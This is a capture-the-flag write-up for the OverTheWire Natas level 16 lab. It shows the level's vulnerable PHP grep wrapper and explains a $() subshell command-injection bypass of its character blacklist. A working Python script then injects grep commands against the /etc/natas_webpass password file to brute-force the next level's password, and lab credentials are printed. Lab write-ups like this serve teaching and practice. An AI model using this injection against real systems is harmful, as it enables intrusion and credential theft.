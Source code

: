 # Solution
The level has multiple character blacklisted, leaving us with subshell:
```php
<?  
$key = "";  
  
if(array_key_exists("needle", $_REQUEST)) {    $key = $_REQUEST["needle"];  
}  
  
if($key != "") {  
    if(preg_match('/[;|&`\'"]/',$key)) {  
        print "Input contains an illegal character!";  
    } else {        passthru("grep -i \"$key\" dictionary.txt");  
    }  
}  
?>
```

The logic is that, if we have a NULL return in the subshell, any following character is used for the grep command.
```
$(wasdg)America
```

But if we have a valid value returned from the subshell like:
```
$(whoami)America
```

it would be (example) => www-dataAmerica. Which obviously does not exist.

We can use this to perform a password bruteforce with grep:
```python
import requests

url = "http://natas16.natas.labs.overthewire.org"
auth = ("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")
charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
password = ""

for i in range(1, 33):
    for c in charset:
        injection = f'$(grep ^{password + c} /etc/natas_webpass/natas17)'
        params = {"needle": injection, "submit": "Search"}

        response = requests.get(url, auth=auth, params=params)

        if "America" not in response.text:
            password += c
            print(f"Found character {i}: {c}")
            break

print(f"Recovered password: {password}")
```

```
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```